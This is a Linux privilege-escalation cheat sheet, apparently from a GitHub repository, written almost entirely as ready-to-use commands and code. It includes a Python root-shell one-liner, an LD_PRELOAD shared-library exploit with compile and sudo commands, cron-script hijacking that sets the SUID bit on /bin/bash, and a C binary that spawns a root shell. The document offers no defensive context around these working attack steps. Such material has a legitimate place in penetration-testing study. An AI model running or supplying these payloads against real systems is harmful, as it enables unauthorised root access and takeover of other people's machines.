 

## 🐍 Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

## 🔗 LD\_PRELOAD + sudo

### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

## ⏰ Crontab 

### 🔎 Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

### ⚔️ Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.
   - Use `ls -la` to inspect permissions.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

## 🧬 Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

## ⚙️ SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed with SUID.

---



